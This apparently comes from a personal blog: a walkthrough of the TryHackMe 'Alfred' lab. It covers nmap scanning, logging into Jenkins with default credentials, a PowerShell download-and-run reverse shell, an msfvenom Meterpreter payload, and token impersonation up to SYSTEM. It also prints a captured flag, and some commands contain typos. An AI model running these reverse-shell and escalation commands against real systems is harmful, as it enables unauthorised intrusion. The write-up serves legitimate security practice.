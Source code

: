 ```yaml
---
title: THM Room Walkthrough - Alfred
date: '2025-01-22 21:35:00 +0000'
author: b3rdma
categories:
  - Hacking
  - Try Hack Me
tags:
  - nmap
  - enumeration
  - privilege escalation
  - reverse shell
  - metasploit
description: THM room Alfred walkthrough - good room for rev shell/Metasploit practice
media_subpath: /img/alfred/
---
```

## Contents

<!-- toc -->

- [Task 1 - Initial Access](#task-1---initial-access)
- [Initial Recon - NMAP Scan Results](#initial-recon---nmap-scan-results)
- [Enumeration](#enumeration)
- [Task 2 - Switching Shells](#task-2---switching-shells)
- [Task 3 - Privilege Escalation](#task-3---privilege-escalation)

<!-- tocstop -->

## Task 1 - Initial Access

First things first, lets do a full nmap scan to see what is open on the target.
I used the following command to scan the target:

<!-- prettier-ignore-start -->
```bash
sudo nmap -sV -sC -p- -Pn -T4 10.10.131.95
```
{: .nolineno }
<!-- prettier-ignore-end -->

## Initial Recon - NMAP Scan Results

<!-- prettier-ignore-start -->
```bash

┌──(zed   kali)-[~/hacking/thm/rooms/alfred]
└─|||> sudo nmap -sV -sC -p- -Pn -T4 10.10.131.95
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-19 12:54 GMT
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.131.95, 16) => Protocol wrong type for socket
Offending packet: TCP 10.11.121.104:56714 > 10.10.131.95:53 S ttl=46 id=1811 iplen=11264  seq=3598359036 win=1024 <mss 1460>
Nmap scan report for 10.10.131.95
Host is up (0.038s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ms-wbt-server Microsoft Terminal Service
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2025-01-18T12:49:06
|_Not valid after:  2025-07-20T12:49:06
|_ssl-date: 2025-01-19T13:41:17+00:00; -16s from scanner time.
8080/tcp open  http          Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -16s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2824.03 seconds

```
{: .nolineno }
<!-- prettier-ignore-end -->

## Enumeration

- First went to 10.10.255.69:8080 and was presented with the Jenkins login page
- Tried default `admin:admin` for username and password and that logged me in to
  back-end (default credentials for Jenkins found via search)
- In the project config page we see execution of batch commands is enabled
- Change the `whoami` default command with:

<!-- prettier-ignore-start -->
```powershell
powershell iex (New-Object
Net.WebClient).DownloadString('http://10.11.121.104:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp
-Reverse -IPAddress 10.11.121.104 -Port 4444
```
{: .nolineno }
<!-- prettier-ignore-end -->

- Save the project and then build it so it runs the payload
- Make sure to have the following two commands running on attack machine:

<!-- prettier-ignore-start -->
```bash
python3 - http.server
```
{: .nolineno }
<!-- prettier-ignore-end -->

<!-- prettier-ignore-start -->
```bash
nc -nvlp 4444
```
{: .nolineno }
<!-- prettier-ignore-end -->

- Had issues with getting the `nc` command to work on MacOS so booted up Kali
- Worked great once build of the project started on Kali; reverse shell sorted.
- Had to search about a bit to find the flag at `C:\Users\bruce\Desktop\user.txt`
- Flag is: `79007a09481963edf2e1321abd9ae2a0`

## Task 2 - Switching Shells

The instructions on this part of the room are quite self-explanatory; however,
the steps I took are as follows:

- Use the `msfvenom` command to generate a payload:

<!-- prettier-ignore-start -->
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata -e x86/shikata_ga_nai LHOST=10.11.121.104 LPORT=4443 -f exe -o revShell.exe
```
{: .nolineno }
<!-- prettier-ignore-end -->

- Once that is done, uploading to the target machine is the next step. In the
  shell we already have, run the command
  `powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.11.121.104/revShell.exe','revShell.exe')"`
- This is now ready to use on the target, but first we need to set up Metasploit
  to listen in to it as we are using a meterpreter.
- There is a one-liner on the THM Room page that can be used but I opened
  Metasploit the old way and set the required parameters; the commands listed
  below in order of execution:

<!-- prettier-ignore-start -->
```bash
msfconsole
use exploit/multi/handler
set LOST 10.11.121.104
set LPORT 4443
set PAYLOAD windows/meterpreter/reverse_tcp
run
```
{: .nolineno }
<!-- prettier-ignore-end -->

- Once the meterpreter handler connects, use the command `shell` to now have the
  Windows Cmd shell prompt.
- To answer the question in Task 2, simply run `dir` and look at the file size
  (in bytes) of revShell.exe.

## Task 3 - Privilege Escalation

The Task 3 questions are pretty guided by the instructions so here I shall just
add a few screenshots of the results:

![whoami/priv command on kali linux](20250124-alfred-whoami-priv.webp){: width="700" height="400" }
_Execution of the `whoami/priv` command_

The next step instructs us to enter `load incognito` and follow that up with
`list_tokens -g`. See screenshot below for results:

![load incognito Meterpreter command on kali linux](20250124-alfred-load-incognito.webp){: width="700" height="400" }
_Execution of the `load incognito` Meterpreter command_

The observant will note that I have also run the commands `getuid` and
`impersonate_token "BUILTIN\Administrators"`; The output shows that initially we
were `alfred\bruce`. Not in the screenshot (sorry) is the output from running
the `getuid` command afterwards which will be `NT AUTHORITY\SYSTEM`.

Final steps are to get the process ID of services.exe, migrate to that process
and gain root privileges. Output of the `ps` command below:

![ps command on kali linux](20250124-alfred-ps-command.webp){: width="700" height="400" }
_Execution of the `ps` command_

Now we have found the PID we want, run the command `migrate <PID>`, in my case
it was `migrate 668`, and wait for the success message. Root is ours. Final
question answered by `cat`'ing the root.txt file. Location is given which is
nice 🙂.

![cat and type command on kali linux](20250124-alfred-final-flag.webp){: width="700" height="400" }
_Execution of the `cat` command_

> The output from `cat` looked kind of strange to me so I entered shell and used
> `type root.txt` to confirm that the flag was correct. All shown in the
> screenshot but wanted to clarify just in case.
> {: .prompt-info }

So that is Alfred completed. I hope this was helpful, informative and possibly
even interesting. Feedback is always welcome but please do view this in the
context that these are basically my learning notes. Definitely let me know if
there are errors, especially in relation to techniques/tools used.

Thank you and Godspeed.

